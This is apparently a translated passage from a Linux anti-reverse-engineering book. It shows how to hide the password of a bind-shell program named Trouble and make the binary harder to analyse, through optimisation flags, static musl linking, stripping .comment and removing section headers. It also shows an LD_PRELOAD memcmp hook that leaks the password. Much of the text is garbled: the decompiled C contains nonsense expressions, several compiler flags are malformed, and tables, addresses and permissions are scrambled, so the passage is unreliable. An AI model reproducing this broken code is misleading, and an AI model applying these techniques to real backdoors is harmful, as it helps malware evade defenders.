- [ ] [*] 使用 -AA 或 aaaa 执行额外的实验分析。
- [ ] 为 fcn.* 和 sym.func.* 函数构造函数名 (aan)
- [0x04000ad0]> pdf @ sym.btea_encrypt
- / (fcn) sym.btea_encrypt 800

反汇编代码比原始代码复杂得多。

# 第 2 章：编译选项

Decompiled -O3 -funroll-loops btea_encrypt()

```c
int btea_encrypt(int arg0, int arg1, int arg2) {
  rsi = arg1;
  rdi = arg0;
  stack[2047] = r15;
  stack[2046] = r14;
  stack[2045] = r13;
  stack[2044] = r12;
  stack[2043] = rbp;
  rbp = arg2;
  rax = 0x34 / rsi;
  stack[2042] = rbx;
  rsp = rsp - 0x8 - 0x8 - 0x8 - 0x8 - 0x8;
  if (rax != 0xffffffffffffffff) {
    r12 = rsi + 0xffffffffffffffff;
    r11 = 0x0;
    stack[2042] = rsi + 0xffffffffffffffff;
    do {
      r11 = rsi = 0x61c88647;
      r12 = rsi >> 02;
      rax = *(int32_t*)stack[2042];
      if (r12 > 0x0) {
        if (var_-8 > 0x3) {
          rdx = *(int32_t *)rdi;
          rbx = stack[2042];
          r10 = rdi + 0x4;
          r13 = 0x1;
          rcx = 0x0;
          do {
            r9 = *(int32_t *)r10;
            r14 = rsi ^ rcx;
            r10 = r10 + rcx;
```


``` 
            rcx = rcx + 0x2;

            r8 = (r11 ^ r9) + (int32_t) *(rbp + (0x3) * 0x4) ^

            rax;

            r15 = rsi ^ r13;

            r13 = r13 + 0x2;

            r8 = (rax >> 0x5) ^ (rx << 0xx)

 ( (000 00x);

            rdx = *(int32_t) *(r10 + 0xffffffffff);

            rax = ((rax << 0x4) ^ rdx >> 0x3) + (r8 >> 0x5) ^

            *(int32_t) *(rbp + (0x3) * 0x4) ^

            (r11 ^ r8);

            *(int32_t) *(r10 + 0xffffffffffff) = rax;

            } while (rdx < rbx);

          } else {

            rcx = 0x0;

            r14 = rcx + 0x1;

            r8 = *(int32_t) *(rdi + 0x4);

            r9 = !rcx & 12;

            rax = (r8 >> 0x3) ^ (rbx >> 0x2) +

            *(int32_t) *(rbp + (0x3) * 0x4) ^

            (r11 ^ r8);

            if (r14 < 12) {

              if (r9 == 0) {

                r8 = *(int32_t) *(rdi + (0x2) ^ 0x4);

                rdx = (r11 ^ r8) + ((int32_t) *(rbp + (0x3) * 0x4) ^

                (rax >> 0x5) ^ rax << 0x2);

                rax = *(int32_t) *(rdi + 0x4);

                rax = rax + rdx;

                rdx = rcx + 0x2;

                *(int32_t) *(rdi + 0x4) = rax;

                if (rcx + 0x2 < 12) {

                  do {

                    r10 = rdi + rdx * 0x4;

                    rcx = *(int32_t) *(rdi + (rdx + 0x1) * 0x4);

                    r9 = rdi + (rdx + 0x1) * 0x4;

                    r8 = (rdx + 0x1 ^ rbx) + *(int32_t) *(rbp + ((0x3) * 0x4) ^

                    (rax >> 0x5) ^ rax << 0x2) + (rbx >> 0x3) ^ rax << 0x4) +

                    *(int32_t) r10;

                    rax = rdx + 0x2;

                    rdx = rdx + 0x2;

                    *(int32_t) r10 = r15;

                    r10 = *(int32_t) *(rdi + rax * 0x4);

                    rax = ((r11 ^ rax) >> r10) + *(int32_t) *(rbp + r8 * 0x4) ^

                    r15) ^ (r15 >> 0x5) ^ r10 << 0x2) + (r10 >> 0x3) ^

                    r15 << (0x4) + *(int32_t) r9;

                    *(int32_t) r9 = rax;

                  } while (rdx < r12);

                }

            }

          } else {

            do {

              r10 = rdi + rdx * 0x4;

              rbx = *(int32_t) *(rdi + (rdx + 0x1) * 0x4);

              r9 = rdi + (rdx ^ 0x1) * 0x4;

              r8 = (rdx ^ 0x1 ^ rsi);

              r15 = *(r11 ^ rbx) + *(int32_t) *(rbx + ((rsi ^ rax) &

              (0x3) * (0x4) ^ rax) ^ (rax >> 0x5 ^ rbx << 0x2) +

              (rbx) >> 0x3 * rax << (0x4) + *(int32_t) r10;

              rax = rdx;

              rax = rdx + 0x2;

              *(int32_t) r10 = r15;

              r10 = *(int32_t) *(rdi + rax * 0x4);

              rax = *(r11 ^ r10) + *(int32_t) *(rbp + r8 * 0x4) ^

              r15) = (r15 >> 0x5) ^ r10 << 0x2) ^ (r10 >> 0x3) ^

              r15 << (0x4));

              *(int32_t) r9 = rax;

            } while (rdx < r12);

          }

          r13 = r12;

          r10 = *(int32_t) stack[2042];

        } else {

          r10 = rax;

          r13 = 0x0;

          r15 = *(int32_t) rdi;

          rax = rax >> 0x5;

          rsi = *(int32_t) *(rbp + ((0x3) * 0x4);

          rsi = rsi ^ rax;

          rax = rax << 0x4;

          *(int32_t) stack[2042] = (rsi + (r11 ^ r15) ^ (r15 >> 0x3) +

          (r8 * 0x4)) + r10;

        } while (r11 != var_-8);

        *(int32_t) stack[2042] = rax;

      } while (r != var_-8);

    return rax;

}
```

考虑逆向工程师为了理解 `btea_encrypt()` 所做的工作。使用 `-O3 -funroll-loops` 使函数大小几乎增加了一倍。仅仅使用优化标志就增加了逆向工程师的工作量。在之前的章节中，你学习了多种轻松提取 `s_password` 内容的方法。在这一节中，你将学习如何使用编译选项来隐藏 `s_password` 不被窥探。

## 在运行时解析函数

了解 `Trouble` 在运行时的依赖很重要。如何找到需要加载的函数。

### Trouble 的动态符号

```
albino@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ readelf --dyn trouble
```

`.dyn` 表包含 31 个条目：

| Num | Value | Size | Type | Bind | Name |
|---|---|---|---|---|---|
| 0 | 0000000000000000 | | NOTYPE | LOCAL | UND |
| 1 | 0000000000000000 | | NOTYPE | WEAK | UND | __DT_version |
| 2 | 0000000000000000 | | FUNC | GLOBAL | UND | _stack_fail@GLIBC_2.2.4 (2) |
| 3 | 0000000000000000 | | FUNC | GLOBAL | UND | dup2@GLIBC_2.2.5 (3) |
| 4 | 0000000000000000 | | FUNC | GLOBAL | UND | close@GLIBC_2.2.5 (3) |
| 5 | 0000000000000000 | | FUNC | GLOBAL | UND | read@GLIBC_2.2.5 (3) |
| 6 | 0000000000000000 | | FUNC | GLOBAL | UND | _libc_start_main@GLIBC_2.2.5 (3) |
| 7 | 0000000000000000 | | FUNC | GLOBAL | UND | memcmp@GLIBC_2.2.5 (3) |
| 8 | 0000000000000000 | | FUNC | GLOBAL | UND | execve@GLIBC_2.2.5 (3) |
| 9 | 0000000000000000 | | NOTYPE | WEAK | UND | __start_ |
| 10 | 0000000000000000 | | FUNC | GLOBAL | UND | listen@GLIBC_2.2.5 (3) |
| 11 | 0000000000000000 | | FUNC | GLOBAL | UND | bind@GLIBC_2.2.5 (3) |
| 12 | 0000000000000000 | | FUNC | GLOBAL | UND | perror@GLIBC_2.2.5 (3) |
| 13 | 0000000000000000 | | NOTYPE | WEAK | UND | _dl_RegisterClasses |
| 14 | 0000000000000000 | | FUNC | GLOBAL | UND | accept@GLIBC_2.2.5 (3) |
| 15 | 0000000000000000 | | FUNC | GLOBAL | UND | fwrite@GLIBC_2.2.5 (3) |
| 16 | 0000000000000000 | | NOTYPE | WEAK | UND | _ld_registerTable |
| 17 | 0000000000000000 | | FUNC | GLOBAL | UND | fork@GLIBC_2.2.5 (3) |
| 18 | 0000000000000000 | | FUNC | GLOBAL | UND | socket@GLIBC_2.2.5 (3) |
| 19 | 0000000000000000 | | NOTYPE | GLOBAL | UND | __data |
| 20 | 0000000000006028 | | NOTYPE | GLOBAL | UND | __start_ |
| 21 | 00000000000060b0 | | FUNC | GLOBAL | UND | __end |
| 22 | 000000000000602a | | NOTYPE | WEAK | UND | _data |
| 23 | 00000000000400da | | FUNC | GLOBAL | UND | _IO_stdin |
| 24 | 00000000000400d2 | | FUNC | GLOBAL | UND | __libc_c_su_user |
| 25 | 00000000000400c5 | | FUNC | GLOBAL | UND | __init |
| 26 | 00000000000602ea | | FUNC | GLOBAL | UND | stderr |
| 27 | 00000000000401b8 | | FUNC | GLOBAL | UND | __init |
| 28 | 0000000000060298 | | NOTYPE | GLOBAL | UND | __bss |
| 29 | 0000000000040d90 | | FUNC | GLOBAL | UND | __fini |
| 30 | 0000000000040d94 | | FUNC | GLOBAL | UND | __fini |
| 31 | 0000000000000000 | | | | | | .text |

## 第 2 章：编译器选项

```
0000062040 R_X86_64_JUMP_SLO 0000000000000000 memcmp@GLIBC_2.25 +
0000062048 R_X86_64_JUMP_SLO 0000000000000000 execve@GLIBC_2.25 +
0000062050 R_X86_64_JUMP_SLO 0000000000000000 listen@GLIBC_2.25 +
0000062058 R_X86_64_JUMP_SLO 0000000000000000 bind@GLIBC_2.25 +
0000062060 R_X86_64_JUMP_SLO 0000000000000000 perror@GLIBC_2.25 +
0000062068 R_X86_64_JUMP_SLO 0000000000000000 accept@GLIBC_2.25 +
0000062070 R_X86_64_JUMP_SLO 0000000000000000 fwrite@GLIBC_2.25 +
0000062078 R_X86_64_JUMP_SLO 0000000000000000 fork@GLIBC_2.25 +
0000062080 R_X86_64_JUMP_SLO 0000000000000000 socket@GLIBC_2.25 +
```

观察 `memcmp()`，它是需要加载的函数之一。在 GDB 中，Trouble 已经启动。

在加载之前检查 `memcmp()`

```
albino-luster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ gdb .trouble

Gnu gdb 7.11.1-ubuntu16.04 7.11.1

Copyright (C) 2016 Free Software Foundation, Inc.

License GPLv+: version 3 or later <http://www.gnu.org/licenses/gpl.html> 这是一个免费软件：你可以自由地更改和分发它。

在法律允许的范围内不提供任何保证。输入 "show copying" 和 "show warranty" 查看详情。

此 GDB 编译为 "x86_64-linux-gnu"。输入 "show configuration" 查看配置详情。

有关错误报告的说明，请参阅：

<http://www.gnu.org/gdb/bugs/.

在线查找 GDB 手册和其他文档资源：

<http://www.gnu.org/gdb/documentation/..

如需帮助，请输入 "apropos word" 来搜索与 "word" 相关的命令...

正在从 ./trouble... 读取符号（无调试符号）...完成。

(gdb) info address memcmp

符号 "memcmp" 位于 0x40090a，位于一个没有调试信息的函数中。

memcmp 的汇编转储：

0x0000000000409a0 <+0> jmp *0x2016a(%rip)

0x0000000000409a6 <+6> pushq $0x5

0x0000000000409ab <+11> jmp 0x409a0
```

在上面的 GDB 输出中，我执行了两个命令 `info address memcmp`。请注意，这些命令每个的结果都指向 PLT（过程链接表）中的 `memcmp` 地址。然而，如果你在 Trouble 启动后重新执行这些命令，你会发现 `memcmp()` 现在指向了 `libc.so`。

在 lib.so 加载后检查 `memcmp()`

```
(gdb) info address memcmp

符号 "memcmp" 位于 0x7ffff7ac180，位于一个没有调试信息的文件中。

(gdb) dis memcmp

0x000000007ffff7ac180 <16> mov 0x334ce(%rip),rdx #0x7ffff7dd070

0x000000007ffff7ac187 <7> testl 0x20,0x80(%rdx)

0x000000007ffff7ac191 <17> jne 0x7ffff7ac19b __memcmp+27

0x000000007ffff7ac193 <19> lea 0x26(%rip),rax #memcmp_sse2
```


`0x000000007ffff7ac19a <26> retq`

`0x000000007ffff7ac19b <27> testl 0x800000,0x80(%rdx)`

`0x000000007ffff7ac195 <35> je 0x7ffff7ac1af __memcmp+47`

`0x000000007ffff7ac247 <37> mov 0x39(%rip),rax #memcmp+47`

`0x000000007ffff7ac247 <39> mov 0xdafab2(%rip),rax #memcmp_sse4`

`0x000000007ffff7ac24e <46> retq`

`0x000000007ffff7ac24f <47> lea 0xe223a(%rip),rax #memcmp_sse3`

`0x000000007ffff7ac2b <54> retq`

`lib.so` 已加载到内存，Trouble 现在指向共享对象中的 `memcmp()` 实现。

合理的人可能会认为 `memcmp()` 用于比较用户提供的密码和 Trouble 中嵌入的密码。事实上，你可以使用名为 `ltrace` 的工具来确认这一点。

`ltrace`（或库跟踪器）是一个显示程序运行时发生的所有动态库调用的工具。

在 Trouble 上使用 `ltrace`

```
albino-luster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ ltrace -f ./trouble

[pid 214900] __libc_start_main(0x400c2f, 1, 0xff1978d48, 0x400e60 <unfinished>...

[pid 214900] socket(2, 1, 6) = 3

[pid 214900] htons(0, 1, 6, 0xff782ea9b) = 0

[pid 214900] htons(270, 1, 6, 0xff782ea9b) = 0xf604

[pid 214900] bind(3, 0xff71e97c20, 16, 0xff72e197c20) = 0

[pid 214900] listen(3, 5, 16, 0xff782ea507) = 0

[pid 214900] accept(3, 0, 0, 0xff782ea627) = 4

[pid 214900] fork() = 2

[pid 214900] close(4 <unfinished>) = ...

[pid 214900] .. fork resumed = 0

[pid 214900] .. close resumed = 0

[pid 214900] read(4 <unfinished>) = ...

[pid 214900] accept(3, 0, 0, 0xff782ead9d0 <unfinished> ...

[pid 214900] .. read resumed > "oooooooooooo" = 33

[pid 214900] memcmp(0x400f0, 0xff1978c30, 32, 0xff782ead680) = 3

[pid 214900] close(4) = 0

[pid 214900] --- exited (status 1) --

[pid 214900] --- SIGCHLD (Child exited) ---
```

在跟踪的末尾，你可以看到对 `memcmp()` 的调用，第一个参数是熟悉的地址 `0x400f0`（作为密码）。`ltrace` 能够通过使用 `ptrace` 在加载的函数开头插入断点来记录这些情况。然而，对于本节，只需要理解库跟踪是一个真实的问题。

## LD_PRELOAD

我提到通过 `ptrace` 进行库跟踪是后续章节要学习的内容。但还有另一种输出 `memcmp()` 参数的方法。通过使用动态链接器的 `LD_PRELOAD`，你可以在加载其他共享对象 `lib.so` 之前加载自己的库。这意味着你可以引入自己的代码来处理 `memcmp()`，并且你的函数将代替 libc 的函数。

我写了代码来证明这一点。它可以在 `ld_preload` 目录下找到。该目录包含两个文件：`CMakeLists.txt` 和 `catch_memcmp.c`。

`chap_2_compiler/ld_preload/CMakeLists.txt`
```
project(catch_memcmp.so)

cmake_minimum_required(VERSION 3.0)

set(CMAKE_FLAGS "-Wall -Wextra -Wshadow -fPIC -shared -std=gnu")

add_executable(${PROJECT_NAME} src/catch_memcmp.c)

target_link_libraries(${PROJECT_NAME})
```

`chap_2_compiler/ld_preload/src/catch_memcmp.c`
```c
#define _GNU_SOURCE

#include <stdio.h>

#include <string.h>

#include <stdlib.h>

#include <dlfcn.h>

/**
* 此程序在配合 LD_PRELOAD 使用时，将打印传递给
* memcmp() 的值。用法：
* LD_PRELOAD=./catch_memcmp.so ./trouble
*/

int memcmp(const void *s1, const void *s2, size_t n)
{
  char* new_s1 = malloc(n + 1);
  char* new_s2 = malloc(n + 1);
  memcpy(new_s1, s1, n);
  memcpy(new_s2, s2, n);
  printf("memcmp(%s, %s, %zu)\n", new_s1, new_s2, n);
  free(new_s1);
  free(new_s2);
  // 调用真正的 memcmp 并返回
  static int (*original_memcmp)(const void *, const void *, size_t) = 
    (void *)dlsym(RTLD_NEXT, "memcmp");
  return original_memcmp(s1, s2, n);
}
```

在 `catch_memcmp.c` 中，我编写了 `memcmp` 自己的实现。在代码中，我打印了传入的参数。然后使用 `dlsym()` 加载真正的函数并执行，这样 Trouble 就能按预期运行。

编译此代码请使用 CMake。

## 第 2 章：编译器选项

```
albino-lobster@ubuntu:-/antire_book/chap_2_compiler/ld_preload/build$ LD_PRELOAD=./tch-memcmp.so ../trouble/build/trouble
```

运行 Trouble 之后，尝试使用 netcat 连接到端口 1270 上的 bind shell。你应该输入一个 32 字节的字符串并按回车。例如：

向 Trouble 传递一个错误的密码

```
albino-lobster@ubuntu:-$ nc 127.0.0.1 1270

ooooooooooooooooooooool

albino-lobster@ubuntu:-$
```

由于你提供了错误的密码，Trouble 应该立即终止 netcat 连接。然而，如果你回过运行 Trouble 的终端，你会看到这里的内容：

`catch_memcmp.so` 暴露了 `s_password`

```
albino-lobster@ubuntu:-/antire_book/chap_2_compiler/ld_preload/build$ LD_PRELOAD=./tch-memcmp.so ../trouble/build/trouble$ Snl, memcmp(TGOUE26TWK0b19eXJUb1fCR@) oooooooooooooooooooooooooooo, 32)
```

你可以看到 `catch_memcmp.so` 打印出了 `s_password` 以及我在 netcat 连接中尝试使用的虚假字符串。

## 使用 musl

如果你想编写一个真正加固的二进制文件，最好的做法是不信任系统上的所有共享库。根据 GCC 文档，`-static` “防止与共享库进行链接”²⁸。然而，作为许多主流 Linux 发行版中带的 lib 版本，glibc 实际上并不是为了被静态链接而设计的。如果我们对它进行静态链接，某些 lib 功能将会损坏，并导致我们的二进制文件体积显著增大。事实是，glibc 根本不应该用于静态链接。幸运的是，还有其他版本的 lib 是为了静态链接而设计的²⁹。

> ²⁸https://gcc.gnu.org/onlinedocs/gcc/Link-Options.html
> ²⁹http://www.etalabs.net/compare_libscl.html

- 1. `diet libc`³⁰
- 2. `uClibc`³¹
- 3. `musl libc`³²

在本书的剩余部分中，我们将使用 `musl`（读音为“muscle”）`libc`。我选择 `musl` 是因为它正在活跃维护，在 Ubuntu 上容易安装，并且与 CMake 配合得很好。

在 Ubuntu 上安装 musl，请使用 `apt-get`：

### 在 Ubuntu 16.04 上安装 musl-tools

```
albino-luster@ubuntu:~/antire_book$ sudo apt-get install musl-tools musl-dev

Reading package lists... Done

Building dependency tree

Reading state information... Done

将安装以下额外的包：

musl

推荐包：

linux-musl-dev

将安装以下新包：

musl-dev musl-tools

0 个升级，3 个安装，0 个移除，45 个未升级。

需要获取 0 B/780 kB 的存档。

执行此操作后，将使用 3,568 kB 的额外磁盘空间。

您确定要继续吗？[Y/n] y

选择之前未选择的包：amd64。

(读取数据库 ... 当前已安装 242454 个文件和目录)

准备解压 ...musl_1.1.9-1_amd64.deb ...

正在解压 musl:amd64 (1.1.9-1) ...

选择之前未选择的包 musl-dev。

准备解压 ...musl-dev_1.1.9-1_amd64.deb ...

正在解压 musl-dev (1.1.9-1) ...

选择之前未选择的包 musl-tools。

准备解压 ...musl-tools_1.1.9-1_amd64.deb ...

正在解压 musl-tools (1.1.9-1) ...

正在处理 man-db (2.7.5-1) 的触发器...

设置 musl:amd64 (1.1.9-1) ...
```

> ³⁰https://www.fefe.de/dietlib/
³¹https://uclibc.org/
³²https://www.musl-libc.org/

设置 `musl-dev` (1.1.9-1) ...
设置 `musl-tools` (1.1.9-1) ...

要更新 Trouble 以使用 `-static` 标志，你只需要更新编译器标志。

```
set(CMAKE_C_FLAGS "-Wall -Wshadow -s -fvisibility=hidden -O03 -funroll-loops -nstatic -std=gnu1")
```

此外，你还需要告诉 CMake 使用不同的编译器。将以下行放在 `CMAKE_C_FLAGS` 行上方：

```
set(CMAKE_C_COMPILER musl-gcc)
```

大功搞定！现在当你编译 Trouble 时，你将使用 `musl libc` 而不是 `glibc`。

## 体积很重要

我想看看使用 glibc 静态链接和 musl libc 静态链接的大小差异。我分别使用每个库编译了 Trouble，结果非常有说服力：

`glibc` 版本的 Trouble 中的 `-l`

```
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ ls -l ./trouble

-rw-r-x 1 albino-lobster albino-lobster 840632 May 17 14:32 trouble
```

`musl libc` 版本的 Trouble 中的 `-l`

```
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ ls -l ./trouble

-rw-r-x 1 albino-lobster albino-lobster 9560 May 17 14:44 trouble
```

你可以看到了。840kb 对 9.5kb。巨大的差异。你可能会问，如何知道我不再使用任何库了？一种方法是查看动态节。

使用 glibc 的 Trouble 动态节

```
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ readelf -d ./trouble

偏移量 0x128 处的动态节包含 24 个条目：

| 标签 | 类型 | 名称/值 | 共享库 [libc.so.6] |

|---|---|---|---|

| 0x0000000000000001 | (NEEDED) | | |

| 0x000000000000000c | (INIT) | 0x4009d0 | |

| 0x000000000000000d | (FINI) | 0x400ed4 | |

| 0x0000000000000019 | (INIT_ARRAY) | 0x601e10 | |

| 0x000000000000001b | (INIT_RAYS) | 8 (bytes) | |

| 0x000000000000001a | (INIT_ARRAY) | 0x601e18 | |

| 0x000000000000001c | (INIT_RAYS) | 8 (bytes) | |

| 0x0000000000000ff5 | (GNU_HASH) | 0x400298 | |

| 0x0000000000000005 | (STRTAB) | 0x400648 | |

| 0x0000000000000006 | (SYMTAB) | 0x400300 | |

| 0x000000000000000a | (STRSZ) | 350 (bytes) | |

| 0x000000000000000b | (SYMENT) | 24 (bytes) | |

| 0x0000000000000015 | (DEBUG) | 0x0 | |

| 0x0000000000000003 | (PLTGOT) | 0x602000 | |

| 0x0000000000000002 | (PTRELSZ) | 384 (bytes) | |

| 0x0000000000000014 | (PTREL) | RELA | |

| 0x0000000000000017 | (JMPREL) | 0x400850 | |

| 0x0000000000000007 | (RELA) | 0x400820 | |

| 0x0000000000000008 | (RELAZ) | 48 (bytes) | |

| 0x0000000000000009 | (RELAENT) | 24 (bytes) | |

| 0x0000000000006ffff | (VERNEED) | 0x4007f0 | |

| 0x0000000000006ffff0 | (VERSYM) | 0x4007a6 | |

| 0x0000000000000000 | (NULL) | 0x0 | |
```

第一行说需要共享库“`libc.so.6`”。然而，使用 musl 编译时，动态节甚至不存在。

使用 `musl libc` 的 Trouble 动态节

```
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ readelf -d ./trouble
```

文件中没有动态节。

查看二进制文件外部依赖的另一种方法是使用 `lld`。

使用 `ldd` 查看 glibc 的 Trouble

```
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ ldd .trouble

linux-vdso.so => (0x00007ffca230a00)

libc.so.6 => /lib/x86_64-gnu/libc.so.6 (0x00007f2870c0500)

/lib64/ld-linux-x86_64.so.2 (0x000055b53d18700)
```

使用 `ldd` 查看 `musl libc` 的 Trouble

```
albino-lobster@ubuntu:~/antire_book/chap_2_compiler/trouble/build$ ldd .trouble

not a dynamic executable
```

## 第 3 章：文件格式技巧

## Trouble 的节头表

```bash


`albino-lobster@ubuntu::~antire-book/chap_3_format_hacks/trouble/build$ readelf -S /tmp/trouble`

```
共有 13 个节头，从偏移量 0x2218 开始：

节头 (Section Headers):

| Nr | Name | Type | Address | Offset | Flags Link Info Align |
|---|---|---|---|---|---|---|---|
| [0] | | NULL | 0000000000000000 | 0000000000000000 | 0000000 | 0 | 1 |
| [1] | .init | PROGBITS | 0000000000400120 | | 0 | 0 | 0000120 |
| [2] | .text | PROGBITS | 0000000000400130 | | | | 16 | 0000130 |
| [3] | .finit | PROGBITS | 000000000040139f | | | | 1 | 0000139f |
| [4] | .rodata | PROGBITS | 00000000004013c0 | | A | 64 | 000013c0 |
| [5] | .eh_frame | PROGBITS | 0000000000401c18 | | A | 4 | 00001c18 |
| [6] | .init_array | INIT_ARRAY | 0000000000601fe8 | | WA | 8 | 00001fe8 |
| [7] | .fini_array | FINI_ARRAY | 0000000000601ff0 | | WA | 8 | 0001ff0 |
| [8] | .jcr | PROGBITS | 0000000000601ff8 | | WA | 8 | 0001ff8 |
| [9] | .data | PROGBITS | 0000000000602000 | | WA | 64 | 00002000 |
| [10] | .bss | NOBITS | 0000000000602180 | | WA | 64 | 0002160 |
| [11] | .comment | PROGBITS | 0000000000000001 | | MS | 1 | 00002160 |
| [12] | .shhtrap | STRTAB | 0000000000000000 | | | 1 | 00002b18 |
```

标志 (Flags) 含义：
`W` (写), `A` (分配), `X` (执行), `M` (合并), `S` (字符串), `l` (大)
`I` (信息), `L` (链接顺序), `G` (分组), `T` (TLS), `E` (排除), `x` (未知)
`O` (需要额外节) `o` (操作系统特定), `p` (处理器特定)

注意到 `.comment` 节了吗？这个节的名字起得真好听。让我们使用 `objdump` 来检查它的内容。

### .comment 的内容

```bash
albino-lobster@ubuntu:-/antire_book/chap_3_format_hacks/trouble/build$ objdump -s --section .comment ./trouble/
```

```
./trouble: file format elf64-x86-64
```

```
节 .comment 的内容:

0000 4743a33a 756e7475 20352e34 GCC: (Ubuntu 5.4
0010 2e302d36 756275e6 745371fe 31362e30 .0-6ubuntu-16.0
0020 34e23229 20532e34 2e302d32 30316360 4.2) 5.4.0 20160
0030 66303900 4743433a 20285562 75e475 609.GCC: (Ubuntu
0040 20342e39 2e322d31 37756275 6e747531 4.9.2-17ubuntu
0050 2902342e 39e23200 ) 4.9.2.
```

这些看起来像是某种版本字符串？为了更清晰地阅读，你可以使用 `strings` 工具来获取 `.comment` 的输出：

```bash
albino-lobster@ubuntu:-/antire_book/chap_3_format_hacks/trouble/build$ strings -a /tmp/trouble | grep GCC
```

```
GCC: (Ubuntu 5.4.0-6ubuntu-16.04) 5.4.0 20160
GCC: (Ubuntu 4.9.2-17ubuntu) 4.9.2
```

第一个字符串是 Ubuntu 16.04 的 GCC 版本。老实话，我不完全确定第二个字符串是什么。无论如何，我们不需要二进制文件中的这些信息，虽然它们可以帮助逆向工程师通过各种技术提取二进制文件。我们可以通过 `-R` 选项移除它。

### 从 Trouble 中移除 .comment

```bash
albino-lobster@ubuntu:~antire-book/chap_3_format_hacks/trouble/build$ readelf -S /tmp/trouble
```

```
共有 12 个节头，从偏移量 0x21b8 开始：

节头 (Section Headers):

| Nr | Name | Type | Address | Flags Link Offset |
|---|---|---|---|---|---|
| [0] | | NULL | 0000000000000000 | 0000000000000000 | 0 | 0000000 |
| [1] | .init | PROGBITS | 0000000000401200 | 0000000000000003 AX | 0 | 0000120 |
| [2] | .text | PROGBITS | 0000000000401300 | 000000000000012f AX | 0 | 16 |
| [3] | .fini | PROGBITS | 000000000040139f | 0000000000000003 AX | 0 | 000139f |
| [4] | .rodata | PROGBITS | 00000000004013c0 | 0000000000000058 A | 0 | 00013c0 |
| [5] | .eh_frame | PROGBITS | 0000000000401c18 | 0000000000000004 A | 0 | 0001c18 |
| [6] | .init_array | INIT_ARRAY | 0000000000601fe8 | 0000000000000000 WA | 0 | 0001fe8 |
| [7] | .fini_array | FINI_ARRAY | 0000000000601ff0 | 0000000000000008 WA | 0 | 0001ff0 |
| [8] | .jcr | PROGBITS | 0000000000601ff8 | 0000000000000008 WA | 0 | 0001ff8 |
| [9] | .data | PROGBITS | 0000000000602000 | 0000000000000160 WA | 0 | 64 |
| [10] | .bss | NOBITS | 0000000000602180 | 0000000000000320 WA | 0 | 64 |
| [11] | .shhtrab | STRTAB | 0000000000000000 | 0000000000000057 | 1 | 0002160 |
```

如上所示，节头中并没有移除 `.comment`，下一个条目 `.shhtrab` 已经移动到了 `.comment` 原本的位置并覆盖了它。

不过你不想每次构建后手动执行 `strip -R`，那样太麻烦。幸运的是，CMake 提供了执行命令的能力。如果你在 Trouble 的 `CMakeList.txt` 末添加以下命令，那么每次编译二进制文件时都会移除 `.comment` 节：

### 每次编译后移除 .comment

```
add_custom_command(TARGET ${PROJECT_NAME}
  POST_BUILD
  COMMAND strip -R .comment ${CMAKE_CURRENT_BINARY_DIR}/${PROJECT_NAME})
```

## 移除节头表

在上节中，你查看了节头表。节头表对于逆向工程师很有用，因为它将二进制文件的地址空间划分为非常具体的块。然而，执行时实际上不需要节头。你没听错，节表是不需要的！你可以完全将其删除。

不要只听我的，自己去测试 Trouble 的 ELF 头。

### Trouble 的 ELF 头

```bash
albino-lobster@ubuntu:~antire-book/chap_3_format_hacks/trouble/build$ readelf -h /tmp/trouble
```

```
ELF Header:
  Magic: 7f 45 4c 46 02 01 00 00 00 00 00 little endian (current)
  OS/ABI: UNIX
  Type: EXEC (Executable file)
  Machine: X86-64
  Entry point: 0x402f2
  Start of program headers: 64 (bytes into file)
  Start of section headers: 32 (bytes into file)
  Flags: 0x0
```

第 3 章：文件格式技巧

该头部的大小：64（字节）
程序头的大小：56（字节）
节头的数量：12
共有 12 个节头，从偏移量 0x21b8 开始：

（此处省略重复的节头表...）

## 第 3 章：文件格式技巧

```
idx14 vaddr=0x00601fe8 paddr=0x00001fe8 sz=376 vsz=1208 perm=m-r-rw- name=LOAD1
idx15 vaddr=0x00000000 paddr=0x00000000 sz=0 vsz=0 perm=m-r-rw- name=GNU_STACK
idx16 vaddr=0x00601fe8 paddr=0x00001fe8 sz=24 vsz=24 perm=m-r--r- name=GNU_RELRO
idx17 vaddr=0x00400000 paddr=0x00000000 sz=64 vsz=64 perm=m-r-rw- name=ehdr
```

你会注意到 Radare 将节段头表（section headers table）和程序头表（program headers）都放在了一个“sections”表中。这在技术上并不完全准确，但已经足够用了。如果你仔细观察，会发现节段头表中所有具有虚拟地址的节（索引 1-10）都映射到了程序头中的 LOAD0 和 LOAD1。这解释了为什么执行二进制文件时不需要节段头表。所有必要信息都包含在程序头中。

当你将 ELF 头部的值置零后，Radare2 就再也找到节段头表了。

## 修改 ELF 头部后的 Radare2 节

```bash
albino-lobster@ubuntu:~/ant_book/chap_3_format_hacks/trouble/build$ radare2 ./trouble
```

```
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
Warning: Cannot initialize dynamic strings
-- In Soviet Russia, radare2 has documentation.
[0x00400130]> IS
[Sections]
idx00 vaddr=0x00400000 paddr=0x00000000 sz=7196 vsz=7196 perm=m-r-x name=LOAD0
idx01 vaddr=0x00601fe8 paddr=0x00001fe8 sz=376 vsz=1208 perm=m-r-rw- name=LOAD1
idx02 vaddr=0x00000000 paddr=0x00000000 sz=0 vsz=0 perm=m-r-rw- name=GNU_STACK
idx03 vaddr=0x00601fe8 paddr=0x00001fe8 sz=24 vsz=24 perm=m-r--r- name=GNU_RELRO
idx04 vaddr=0x00400000 paddr=0x00000000 sz=64 vsz=64 perm=m-r-rw- name=ehdr
```

然而，表仍然在那里。一个聪明的逆向工程师可以扫描二进制文件来寻找节段头表的数据结构。此外，可以使用 `strings` 工具轻松地恢复节段名称。

## 使用 strings 查找节段名称

```bash
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/trouble/build$ strings -a /tmp/trouble
```

```
<output truncated>
.shstrtab
.init
.text
.fini
.rodata
.eh_frame
.init_array
.fini_array
.jcr
.data
.bss
```

完全删除节段头表似乎是一个聪明的主意。删除该表不仅可以隐藏节段信息，还将为本章后面引入的一些技巧铺平道路。

